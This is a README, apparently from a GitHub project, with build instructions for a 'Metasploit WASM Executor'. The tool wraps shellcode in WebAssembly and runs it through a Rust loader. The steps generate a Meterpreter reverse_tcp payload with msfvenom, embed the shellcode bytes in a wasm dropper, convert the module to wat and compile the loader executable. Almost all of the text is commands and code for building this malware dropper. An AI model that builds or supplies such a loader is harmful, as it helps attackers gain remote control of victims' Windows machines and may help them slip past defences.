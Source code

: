 # Metasploit WASM Executor

## Dependencies
```sh
cargo install wasm-pack
```

## Install Wasm2Wat Windows
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-windows.tar.gz
```

## Install `Wasm2Wat` Linux
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-ubuntu-20.04.tar.gz
tar -xzf wabt.tar.gz
```

- First, we need to get some shellcode from Metasploit
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER IP ADDR> LPORT=<LISTNER PORT> -f rust
```

- Copy the output from that command into `./wasm_dropper/src/lib.rs` 
- Name it `WASM_MEMORY_BUFFER` and change the const to be static
- `WASM_MEMORY_BUFFER` should have the following signature:

```rust
static WASM_MEMORY_BUFFER: [u8; WASM_MEMORY_BUFFER_SIZE] = [
    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,
    ...
];
```

## Build the wasm binary
```sh
cd wasm_dropper && wasm-pack build --release && cd ..
```

## Now convert the wasm binary from .wasm to .wat using `wasm2wat`
```sh
./wabt/bin/wasm2wat.exe ./wasm_dropper/target/wasm32-unknown-unknown/release/wasm_dropper.wasm -o ./wasm_loader/src/wasm_dropper.wat
```

## Now build the Loader
```sh
cd wasm_loader && cargo build --release && cd ..
```

## The Loader Binary is now in `./wasm_loader/target/release/wasm_loader.exe`
